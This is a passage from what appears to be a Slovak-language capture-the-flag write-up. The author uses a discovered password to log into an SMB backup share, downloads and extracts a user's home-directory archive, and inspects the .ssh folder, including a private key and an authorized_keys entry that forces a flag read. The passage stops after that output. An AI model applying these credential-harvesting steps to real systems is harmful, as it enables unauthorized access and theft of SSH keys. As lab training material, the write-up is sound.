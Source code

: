     smbclient //10.99.24.100/backup -U backuper

	Password for [WORKGROUP\backuper]:
	Try "help" to get a list of possible commands.
	smb: \> dir
	  .                                   D        0  Thu Oct 31 08:27:43 2024
	  ..                                  D        0  Mon Oct 14 13:10:34 2024
	  backup-home.tgz                     A  5830741  Thu Oct 31 08:30:02 2024
	
	                102175644 blocks of size 1024. 60824104 blocks available
	smb: \> get backup-home.tgz 
	getting file \backup-home.tgz of size 5830741 as backup-home.tgz (10623.3 KiloBytes/sec) (average 10623.3 KiloBytes/sec)
	smb: \> 
	 

použil som objavené heslo, prihlásilo ma, nazrel som do priečinka, kde sa nachádzal súbor so zálohou, stiahol som a rozbalil. Archív však používa absolútne cesty, preto je lepšie použíť argument --strip-components=1, pripravil som si priečinok untar, kde si archív rozbalím a idem na to

    tar --strip-components=1 -xzf backup-home.tgz -C /home/kali/backuper/untar

archív teda obsahuje priečinok `john@tcc.local` aj s obsahom celého priečinka daného používateľa, vrátane pričinka .ssh so súbormi

    ┌──(kali㉿kali)-[~/backuper/untar/john@tcc.local]
    └─$ ls -la
    total 52
    drwx------ 6 kali kali 4096 Oct 14 13:10 .
    drwxrwxr-x 3 kali kali 4096 Oct 31 09:01 ..
    -rw-r--r-- 1 kali kali 5678 Oct 14 13:10 .bash_history
    -rw-r--r-- 1 kali kali  220 Oct 14 13:10 .bash_logout
    -rw-r--r-- 1 kali kali  571 Oct 14 13:10 .bashrc
    drwxr-xr-x 3 kali kali 4096 Oct 14 13:10 .config
    -rw-r--r-- 1 kali kali   47 Oct 14 13:10 .lesshst
    drwxr-xr-x 2 kali kali 4096 Oct 14 13:10 mc
    drwxr-xr-x 3 kali kali 4096 Oct 14 13:10 .mozilla
    -rw-r--r-- 1 kali kali  161 Oct 14 13:10 .profile
    -rw-r--r-- 1 kali kali   75 Oct 14 13:10 .selected_editor
    drwxr-xr-x 2 kali kali 4096 Oct 14 13:10 .ssh

    ┌──(kali㉿kali)-[~/backuper/untar/john@tcc.local]
    └─$ ls -la .ssh
    total 24
    drwxr-xr-x 2 kali kali 4096 Oct 14 13:10 .
    drwx------ 6 kali kali 4096 Oct 14 13:10 ..
    -rw-r--r-- 1 kali kali  445 Oct 14 13:10 authorized_keys
    -rw-r--r-- 1 kali kali 1766 Oct 14 13:10 id_rsa
    -rw-r--r-- 1 kali kali  380 Oct 14 13:10 id_rsa.pub
    -rw-r--r-- 1 kali kali  142 Oct 14 13:10 known_hosts
    
pozrieme sa do súboru authorized_keys

    $ cat authorized_keys   
    from="10.99.24.100",command="cat /home/john@tcc.local/flag.txt" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCefEn6D9Gk6lWRXChdqEdIojkCr7zbRXv9UfkrXS+zoDdGt5r6jrTzO5orftmTIcTDiB6sntJbAF91vSsQiG8QBMld3Y9VR8ZAkobspuzSZL/rJzjcq4+0ooVEL/OuuMFtW9aPCBmB43Aa50yrhirUyxgT7Oh23iwVMh1s5WyC3WR7QuyMbs0TvZOIQWK4FltcDqT9w+3+oekxOOwyA8QdjodEi2Pmjnw/bTWpTIrH+1QDaN1tp1MbYUaxksAUY5WT5oBIszEEdESPcpIg6/N8MvaSMPoTP1Jmc1TZBR/ZVeSOjBgz5VsNqP+bbd8CUzfoIEIz3mt8Wpw8q+WyIkh1
    